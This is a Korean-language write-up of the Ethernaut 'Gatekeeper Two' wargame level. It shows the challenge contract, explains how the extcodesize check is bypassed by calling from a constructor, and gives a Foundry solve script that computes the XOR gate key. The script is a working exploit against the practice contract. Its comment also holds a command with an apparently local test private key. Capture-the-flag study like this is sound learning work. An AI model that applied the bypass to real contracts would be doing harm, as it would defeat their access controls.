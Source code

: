 # 지문

이 문지기는 몇 가지 새로운 도전을 제시합니다. 참가자로 등록하면 이 레벨을 통과할 수 있습니다.

도움이 될 만한 것들:

* 첫 번째 Gatekeeper를 통과하며 배운 내용을 떠올리세요 — 첫 번째 게이트는 동일합니다.
* 두 번째 게이트의 `assembly` 키워드는 순수 Solidity에 기본 제공되지 않는 기능에 접근할 수 있게 해줍니다. 자세한 내용은 Solidity Assembly 문서를 참고하세요. 이 게이트에서 사용되는 `extcodesize` 호출은 특정 주소에 배포된 컨트랙트 코드의 크기를 가져옵니다 — 이 값이 언제, 어떻게 설정되는지는 이더리움 옐로 페이퍼의 섹션 7에서 확인할 수 있습니다.
* 세 번째 게이트의 `^` 문자는 비트 단위 연산(XOR)이며, 여기서는 또 다른 흔한 비트 연산을 적용하는 데 사용됩니다(솔리디티 치트시트 참고). 이 챌린지에 접근할 때는 Coin Flip 레벨도 좋은 출발점입니다.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

# 풀이 

`gateOne`과 `gateThree` modifier는 상대적으로 간단함.
하지만 `gateOne`과 `gateTwo`의 조건이 상충되는것으로 보일텐데 `extcodesize`의 맹점은 contract의 constructor 실행 시점에서 항상 0을 반환한다는것임.

그점을 이용하면 쉽게 해결 할 수 있음 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function enter(bytes8) external returns (bool);
    function entrant() external view returns (address);
}

contract Helper {
    constructor(address target) public {
        bytes8 answer = bytes8(type(uint64).max ^ uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
        ITarget(target).enter(answer);
    }
}
contract SolveScript is Script {
    address public target = 0x8dAF17A20c9DBA35f005b6324F493785D239719d;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        console.log("entrant address : %s", ITarget(target).entrant());
        Helper helper = new Helper(target);
        console.log("entrant address after poc : %s", ITarget(target).entrant());
        vm.stopBroadcast();
    }
}

```